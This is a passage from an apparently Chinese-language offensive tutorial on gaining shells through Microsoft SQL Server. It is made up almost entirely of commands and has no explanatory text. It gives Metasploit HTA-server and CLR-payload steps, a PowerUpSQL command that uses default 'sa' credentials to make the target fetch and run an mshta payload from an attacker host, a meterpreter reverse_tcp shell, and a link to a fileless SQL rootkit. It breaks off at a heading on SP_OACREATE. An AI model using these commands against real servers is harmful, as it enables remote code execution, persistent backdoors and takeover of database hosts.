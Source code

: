 ### 使用 msf 配合 PowerUpSQL 上线

```php
use exploit/windows/misc/hta_server
set srvhost 192.168.3.133
exploit
```

执行命令

```php
Invoke-SQLOSCmdCLR -Username sa -Password 'admin' -Instance "192.168.3.130,1433" -Command 'mshta.exe http://192.168.3.133:8080/GzoD8Ou5ltc.hta'
```

### 使用 msf clr 模块上线

```php
use exploit/windows/mssql/mssql_clr_payload
set rhosts 192.168.3.130
set username sa
set password admin
set payload windows/meterpreter/reverse_tcp
exploit
```

![image.png](assets/1706232584-66e82740f8fb51db5e2dc2defaf69ac9.png)

### WarSQLKit

```php
https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit
```

# 使用 SP\_OACREATE 执行命令
